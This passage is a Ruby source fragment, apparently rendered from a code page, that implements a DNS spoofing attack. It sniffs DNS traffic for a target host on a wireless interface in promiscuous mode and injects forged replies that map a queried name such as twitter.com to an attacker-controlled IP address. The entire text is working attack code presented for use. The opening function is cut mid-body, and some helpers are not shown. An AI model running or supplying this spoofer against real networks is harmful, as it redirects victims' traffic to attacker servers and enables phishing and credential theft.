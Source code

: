 ```
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end 
```
